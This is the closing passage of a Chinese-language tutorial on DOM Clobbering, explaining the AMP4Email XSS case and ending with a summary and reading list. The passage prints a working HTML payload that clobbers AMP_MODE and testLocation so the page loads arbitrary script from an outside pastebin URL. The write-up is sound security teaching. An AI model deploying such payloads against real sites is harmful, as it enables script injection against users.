 如果我們能讓 `AMP_MODE.test` 跟 `AMP_MODE.localDev` 都是 truthy 的話，再搭配設置 `window.testLocation`，就能夠載入任意的 script！

所以 exploit 會長的像這樣：

``` html
// 讓 AMP_MODE.test 跟 AMP_MODE.localDev 有東西
<a id="AMP_MODE" name="localDev"></a>
<a id="AMP_MODE" name="test"></a>

// 設置 testLocation.protocol
<a id="testLocation"></a>
<a id="testLocation" name="protocol" 
   href="https://pastebin.com/raw/0tn8z0rG#"></a>
```

最後就能成功載入任意 script，進而達成 XSS！（不過當初作者只有試到這一步就被 CSP 擋住了，可見 CSP 還是很有用的）。

這應該是 DOM Clobbering 最有名的案例之一了，而發現這個漏洞的研究員就是之前在講 Mutation XSS 以及 Kibana 時都提過的 Michał Bentkowski，一個人就創造了許多經典案例。

## 小結

雖然說 DOM Clobbering 的使用場合有限，但真的是個相當有趣的攻擊方式！而且如果你不知道這個 feature 的話，可能完全沒想過可以透過 HTML 來影響全域變數的內容。

如果對這個攻擊手法有興趣的，可以參考 PortSwigger 的[文章](https://portswigger.net/web-security/dom-based/dom-clobbering)，裡面提供了兩個 lab 讓大家親自嘗試這個攻擊手法，光看是沒用的，要實際下去攻擊才更能體會。

參考資料：

1. [使用 Dom Clobbering 扩展 XSS](http://blog.zeddyu.info/2020/03/04/Dom-Clobbering/#HTML-Relationships)
2. [DOM Clobbering strikes back](https://portswigger.net/research/dom-clobbering-strikes-back)
3. [DOM Clobbering Attack学习记录.md](https://wonderkun.cc/2020/02/15/DOM%20Clobbering%20Attack%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
4. [DOM Clobbering学习记录](https://ljdd520.github.io/2020/03/14/DOM-Clobbering%E5%AD%A6%E4%B9%A0%E8%AE%B0%E5%BD%95/)
5. [XSS in GMail’s AMP4Email via DOM Clobbering](https://research.securitum.com/xss-in-amp4email-dom-clobbering/)
6. [Is there a spec that the id of elements should be made global variable?](https://stackoverflow.com/questions/6381425/is-there-a-spec-that-the-id-of-elements-should-be-made-global-variable)
7. [Why don't we just use element IDs as identifiers in JavaScript?](https://stackoverflow.com/questions/25325221/why-dont-we-just-use-element-ids-as-identifiers-in-javascript)
8. [Do DOM tree elements with ids become global variables?](https://stackoverflow.com/questions/3434278/do-dom-tree-elements-with-ids-become-global-variables)
